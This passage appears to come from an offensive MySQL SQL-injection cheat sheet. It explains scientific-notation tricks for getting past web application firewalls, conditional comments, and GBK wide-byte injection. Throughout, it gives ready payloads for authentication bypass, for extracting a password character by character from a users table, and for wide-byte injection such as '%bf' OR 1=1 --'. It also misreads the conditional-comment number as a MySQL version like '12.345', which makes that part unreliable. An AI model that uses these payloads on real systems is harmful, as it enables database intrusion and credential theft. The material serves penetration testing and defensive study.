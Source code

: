 * `1e3` represents `1 x 10^3` which is `1000`. 
* `1.5e3` represents `1.5 x 10^3` which is `1500`. 
* `2e-3` represents `2 x 10^-3` which is `0.002`. 

The following queries are equivalent:

* `SELECT table_name FROM information_schema 1.e.tables` 
* `SELECT table_name FROM information_schema .tables` 

In the same way, the common payload to bypass authentication `' or ''='` is equivalent to `' or 1.e('')='` and `1' or 1.e(1) or '1'='1`. 
This technique can be used to obfuscate queries to bypass WAF, for example: `1.e(ascii 1.e(substring(1.e(select password from users limit 1 1.e,1 1.e) 1.e,1 1.e,1 1.e)1.e)1.e) = 70 or'1'='2` 


### Conditional Comments

MySQL conditional comments are enclosed within `/*! ... */` and can include a version number to specify the minimum version of MySQL that should execute the contained code.
The code inside this comment will be executed only if the MySQL version is greater than or equal to the number immediately following the `/*!`. If the MySQL version is less than the specified number, the code inside the comment will be ignored. 

* `/*!12345UNION*/`: This means that the word UNION will be executed as part of the SQL statement if the MySQL version is 12.345 or higher.
* `/*!31337SELECT*/`: Similarly, the word SELECT will be executed if the MySQL version is 31.337 or higher.

**Examples**: `/*!12345UNION*/`, `/*!31337SELECT*/`


### Wide Byte Injection (GBK)

Wide byte injection is a specific type of SQL injection attack that targets applications using multi-byte character sets, like GBK or SJIS. The term "wide byte" refers to character encodings where one character can be represented by more than one byte. This type of injection is particularly relevant when the application and the database interpret multi-byte sequences differently.

The `SET NAMES gbk` query can be exploited in a charset-based SQL injection attack. When the character set is set to GBK, certain multibyte characters can be used to bypass the escaping mechanism and inject malicious SQL code.

Several characters can be used to triger the injection.

* `%bf%27`: This is a URL-encoded representation of the byte sequence `0xbf27`. In the GBK character set, `0xbf27` decodes to a valid multibyte character followed by a single quote ('). When MySQL encounters this sequence, it interprets it as a single valid GBK character followed by a single quote, effectively ending the string.
* `%bf%5c`: Represents the byte sequence `0xbf5c`. In GBK, this decodes to a valid multi-byte character followed by a backslash (`\`). This can be used to escape the next character in the sequence.
* `%a1%27`: Represents the byte sequence `0xa127`. In GBK, this decodes to a valid multi-byte character followed by a single quote (`'`).

A lot of payloads can be created such as:

```sql
%A8%27 OR 1=1;--
%8C%A8%27 OR 1=1--
%bf' OR 1=1 -- --
```
